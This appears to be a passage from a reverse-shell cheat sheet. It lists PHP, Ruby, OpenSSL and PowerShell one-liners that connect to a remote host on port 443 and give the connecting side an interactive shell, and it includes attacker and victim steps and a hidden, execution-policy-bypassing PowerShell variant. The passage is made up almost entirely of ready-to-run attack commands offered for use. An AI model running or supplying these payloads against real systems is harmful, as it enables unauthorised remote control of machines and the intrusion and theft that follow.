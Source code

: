 `php -r '$s=fsockopen("1.1.1.1",443);system("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$s=fsockopen("1.1.1.1",443);popen("/bin/sh -i <&3 >&3 2>&3", "r");'`

`php -r '$s=\'127.0.0.1\';$p=443;@error_reporting(0);@ini_set("error_log",NULL);@ini_set("log_errors",0);@set_time_limit(0);umask(0);if($s=fsockopen($s,$p,$n,$n)){if($x=proc_open(\'/bin/sh$IFS-i\',array(array(\'pipe\',\'r\'),array(\'pipe\',\'w\'),array(\'pipe\',\'w\')),$p,getcwd())){stream_set_blocking($p[0],0);stream_set_blocking($p[1],0);stream_set_blocking($p[2],0);stream_set_blocking($s,0);while(true){if(feof($s))die(\'connection/closed\');if(feof($p[1]))die(\'shell/not/response\');$r=array($s,$p[1],$p[2]);stream_select($r,$n,$n,null);if(in_array($s,$r))fwrite($p[0],fread($s,1024));if(in_array($p[1],$r))fwrite($s,fread($p[1],1024));if(in_array($p[2],$r))fwrite($s,fread($p[2],1024));}fclose($p[0]);fclose($p[1]);fclose($p[2]);proc_close($x);}else{die("proc_open/disabled");}}else{die("not/connect");}'`

# Ruby:

`ruby -rsocket -e'f=TCPSocket.open("1.1.1.1",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

`ruby -rsocket -e 'exit if fork;c=TCPSocket.new("1.1.1.1","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

`NOTE: Windows only`
`ruby -rsocket -e 'c=TCPSocket.new("1.1.1.1","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

# OpenSSL:

#### Attacker:

`openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes`

`openssl s_server -quiet -key key.pem -cert cert.pem -port 443`
  or
`ncat --ssl -vv -l -p 443`

 #### Victim:

`mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 1.1.1.1:443 > /tmp/s; rm /tmp/s`

# Powershell:

`powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("1.1.1.1",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('1.1.1.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
